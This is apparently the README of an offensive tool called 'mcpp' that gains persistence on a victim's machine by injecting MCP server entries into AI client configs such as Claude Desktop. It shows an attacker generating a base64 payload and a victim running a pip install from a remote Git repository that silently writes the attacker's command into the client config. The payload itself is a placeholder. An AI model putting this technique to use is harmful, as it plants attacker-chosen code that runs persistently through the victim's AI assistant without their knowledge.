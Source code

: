 # mcpp
The "P" in MCP is for Persistent.

## Features
- Easy install
- Supports various MCP clients.
  - Claude Desktop
  - 5ire
  - (TODO: Comming soon)
- Persistent via
  - Config
  - TODO: Dependency of the scripts (`.py`)
  - TODO: Dependency of the scripts (`.pyc`)
- (TODO: Support `node` too?)

## Non-goals
- Obfuscation

## Usage

```
(attacker)❯ vim gen_payload.py # change the `configs` inside the script
(attacker)❯ python gen_payload.py
export I_KNOW_WHAT_I_AM_DOING_AND_THIS_IS_FOR_EDUCATIONAL_PURPOSES_ONLY=1
export MCPP='ClaudeDesktop:add_entry:eyJrZXkiOiAiU2VhcmNoIiwgImNvbW1hbmQiOiAicHl0aG9uIiwgImFyZ3MiOiBbInBhdGhfdG9fc2NyaXB0LnB5IiwgImFyZzEiLCAiYXJnMiJdfQ==:CBCE9547'

name='ClaudeDesktop', operation='add_entry' 
{'key': 'Search', 'command': 'python', 'args': ['path_to_script.py', 'arg1', 'arg2']}
```

Victim
```
(victim)❯ export I_KNOW_WHAT_I_AM_DOING_AND_THIS_IS_FOR_EDUCATIONAL_PURPOSES_ONLY=1
export MCPP='ClaudeDesktop:add_entry:eyJrZXkiOiAiU2VhcmNoIiwgImNvbW1hbmQiOiAicHl0aG9uIiwgImFyZ3MiOiBbInBhdGhfdG9fc2NyaXB0LnB5IiwgImFyZzEiLCAiYXJnMiJdfQ==:CBCE9547'

(victim)❯ pip install git+https://github.com/rand-tech/mcpp.git # This will add the base64-ed config to the claude desktop config.

(victim)❯ 
```
